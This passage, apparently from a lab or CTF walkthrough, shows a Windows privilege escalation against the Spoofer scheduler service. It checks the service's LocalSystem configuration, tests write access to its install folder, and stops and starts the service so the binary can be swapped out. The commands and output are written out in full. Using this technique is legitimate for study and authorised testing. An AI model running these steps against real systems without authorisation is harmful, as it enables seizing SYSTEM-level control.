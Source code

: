 ```powershell
    188      11     3300      11100              3200   0 svchost
   1328       0      192        152                 4   0 System
    162      13     4896      12064       0.06    740   0 win32calc
    172      11     1356       6772               512   0 wininit
    250      12     2604      15728               532   1 winlogon

PS C:\Users\tyler\Desktop> sc.exe qc spoofer-scheduler
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: spoofer-scheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files (x86)\Spoofer\spoofer-scheduler.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Spoofer Scheduler
        DEPENDENCIES       : tcpip
        SERVICE_START_NAME : LocalSystem


```

Let's check if we can write in that folder and replace the file and stop/ restart the service :

```powershell
PS C:\Program Files (x86)\Spoofer> echo test > test.txt 
PS C:\Program Files (x86)\Spoofer> ls 


    Directory: C:\Program Files (x86)\Spoofer


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        7/24/2020   9:31 PM          16772 CHANGES.txt
-a----        7/16/2020   7:23 PM           7537 firewall.vbs
-a----        7/24/2020   9:31 PM          82272 LICENSE.txt
-a----        7/24/2020   9:31 PM           3097 README.txt
-a----        7/24/2020   9:31 PM          48776 restore.exe
-a----        7/20/2020  11:12 PM         575488 scamper.exe
-a----        6/30/2023   6:57 PM            152 shortcuts.ini
-a----        7/24/2020   9:31 PM        4315064 spoofer-cli.exe
-a----        7/24/2020   9:31 PM       16171448 spoofer-gui.exe
-a----        7/24/2020   9:31 PM        4064696 spoofer-prober.exe
-a----        7/24/2020   9:31 PM        8307640 spoofer-scheduler.exe
-a----        7/28/2025   4:40 PM             14 test.txt
-a----        7/24/2020   9:31 PM            667 THANKS.txt
-a----        7/24/2020   9:31 PM         217416 uninstall.exe

PS C:\Program Files (x86)\Spoofer> sc.exe stop spoofer-scheduler

SERVICE_NAME: spoofer-scheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x2
        WAIT_HINT          : 0x0

PS C:\Program Files (x86)\Spoofer> sc.exe start spoofer-scheduler

SERVICE_NAME: spoofer-scheduler
```